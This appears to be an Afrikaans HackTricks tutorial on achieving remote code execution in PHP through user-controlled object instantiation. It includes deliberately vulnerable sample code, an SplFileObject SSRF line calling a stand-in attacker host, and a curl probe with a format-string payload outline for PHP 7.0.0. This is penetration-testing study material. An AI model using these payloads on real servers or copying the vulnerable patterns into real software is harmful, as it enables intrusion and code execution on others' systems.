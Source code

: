 # PHP - RCE abusing object creation: new $_GET["a"]($_GET["b"])

{{#include ../../../banners/hacktricks-training.md}}

Dit is basies 'n samevatting van [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

## Inleiding

Die skepping van nuwe arbitrêre objekke, soos `new $_GET["a"]($_GET["a"])`, kan lei tot Remote Code Execution (RCE), soos uiteengesit in 'n [**writeup**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/). Hierdie dokument beklemtoon verskeie strategieë om RCE te bereik.

## RCE deur aangepaste klasse of Autoloading

Die sintaksis `new $a($b)` word gebruik om 'n objek te instansieer, waar **`$a`** die klasnaam verteenwoordig en **`$b`** die eerste argument is wat aan die constructor deurgegee word. Hierdie veranderlikes kan van gebruikersinsette soos GET/POST kom, waar hulle strings of arrays kan wees, of van JSON, waar hulle as ander tipes voor kan kom.

Kyk na die kodefragment hieronder:
```php
class App {
function __construct ($cmd) {
system($cmd);
}
}

class App2 {
function App2 ($cmd) {
system($cmd);
}
}

$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```
In hierdie geval lei die instelling van `$a` op `App` of `App2` en `$b` op 'n stelselopdrag (bv. `uname -a`) tot die uitvoering van daardie opdrag.

**Autoloading-funksies** kan misbruik word as sulke klasse nie direk toeganklik is nie. Hierdie funksies laai outomaties klasse uit lêers wanneer nodig en word gedefinieer met behulp van `spl_autoload_register` of `__autoload`:
```php
spl_autoload_register(function ($class_name) {
include './../classes/' . $class_name . '.php';
});

function __autoload($class_name) {
include $class_name . '.php';
};

spl_autoload_register();
```
Die gedrag van autoloading verskil na gelang van PHP-weergawes en bied verskillende RCE-geleenthede.

## RCE via Ingeboude klasse

As daar geen custom klasse of autoloaders is nie, kan **ingeboude PHP-klasse** volstaan vir RCE. Die aantal van hierdie klasse wissel tussen sowat 100 en 200, afhangend van die PHP-weergawes en geïnstalleerde extensies. Hulle kan gelys word met `get_declared_classes()`.

Konstruktors van belang kan geïdentifiseer word deur die reflection API, soos getoon in die volgende voorbeeld en die skakel [https://3v4l.org/2JEGF](https://3v4l.org/2JEGF).

**RCE via spesifieke metodes sluit in:**

### **SSRF + Phar Deserialization**

Die `SplFileObject`-klas maak SSRF moontlik deur sy konstruktor en laat verbindings na enige URL toe:
```php
new SplFileObject('http://attacker.com/');
```
SSRF kan lei tot deserialization attacks in weergawes van PHP voor 8.0 wat die Phar-protokol gebruik.

### **Exploiting PDOs**

Die PDO class constructor laat verbindings na databases toe via DSN strings, wat potensieel lêerskepping of ander interaksies moontlik maak:
```php
new PDO("sqlite:/tmp/test.txt")
```
### **SoapClient/SimpleXMLElement XXE**

Weergawes van PHP tot 5.3.22 en 5.4.12 was vatbaar vir XXE-aanvalle via die `SoapClient` en `SimpleXMLElement` constructors, afhangend van die weergawe van libxml2.

## RCE via Imagick Extension

In die ontleding van 'n **projek se afhanklikhede** is gevind dat **Imagick** aangewend kon word vir **command execution** deur nuwe objekte te instansieer. Dit bied 'n moontlikheid om kwesbaarhede te benut.

### VID parser

Die VID parser se vermoë om inhoud na enige gespesifiseerde pad in die lêerstelsel te skryf is geïdentifiseer. Dit kan lei tot die plasing van 'n PHP shell in 'n web-beskikbare gids, wat Remote Code Execution (RCE) bewerkstellig.

#### VID Parser + File Upload

Daar word opgemerk dat PHP tydelik opgelaaide lêers in `/tmp/phpXXXXXX` stoor. Die VID parser in Imagick, wat die **msl** protocol gebruik, kan wildcards in lêerpaaie hanteer, wat die oordrag van die tydelike lêer na 'n gekose ligging vergemaklik. Hierdie metode bied 'n addisionele manier om arbitrêre lêerskryf binne die lêerstelsel te bereik.

### PHP Crash + Brute Force

'n Metode beskryf in die [**original writeup**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) behels die oplaai van lêers wat 'n bedienercrash veroorsaak voordat hulle uitgevee word. Deur die naam van die tydelike lêer te brute-force, word dit moontlik vir Imagick om arbitrary PHP code uit te voer. Hierdie tegniek is egter slegs in 'n verouderde weergawe van ImageMagick effektief gevind.

## Format-string in class-name resolution (PHP 7.0.0 Bug #71105)

Wanneer gebruikersinvoer die klasnaam beheer (bv. `new $_GET['model']()`), het PHP 7.0.0 'n tydelike fout ingestel tydens die `Throwable` refactor waar die engine per ongeluk die klasnaam as 'n printf-formaatstring tydens resolusie beskou het. Dit maak klassieke printf-styl primitiewe binne PHP moontlik: leaks met `%p`, skryf-tellingbeheer met breedtespesifiseerders, en arbitrary writes met `%n` teen in-proses wysigers (byvoorbeeld GOT-inskrywings op ELF-boues).

Minimale repro kwesbare patroon:
```php
<?php
$model = $_GET['model'];
$object = new $model();
```
Exploitation outline (from the reference):
- Leak adresse via `%p` in die klasnaam om 'n skryfbare teiken te vind:
```bash
curl "http://host/index.php?model=%p-%p-%p"
# Fatal error includes resolved string with leaked pointers
```
- Gebruik posisionele parameters en breedte-spesifiseerders om 'n presiese byte-telling te stel, gebruik dan `%n` om daardie waarde te skryf na 'n adres wat op die stapel bereikbaar is, mik na 'n GOT slot (bv. `free`) om dit gedeeltelik oor te skryf na `system`.
- Activeer die gekaapte funksie deur 'n klasnaam te stuur wat 'n shell-pyp bevat om `system("id")` te bereik.

Notas:
- Werk slegs op PHP 7.0.0 (Bug [#71105](https://bugs.php.net/bug.php?id=71105)); in latere weergawes gefikseerd. Ernstigheid: kritiek indien arbitrêre klasinstansiasie bestaan.
- Tipiese payloads ketting baie `%p` om die stapel te deurloop, dan `%.<width>d%<pos>$n` om die gedeeltelike oor-skrywing te bewerkstellig.

## References

- [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)
- [The Art of PHP: CTF‑born exploits and techniques](https://blog.orange.tw/posts/2025-08-the-art-of-php-ch/)

{{#include ../../../banners/hacktricks-training.md}}
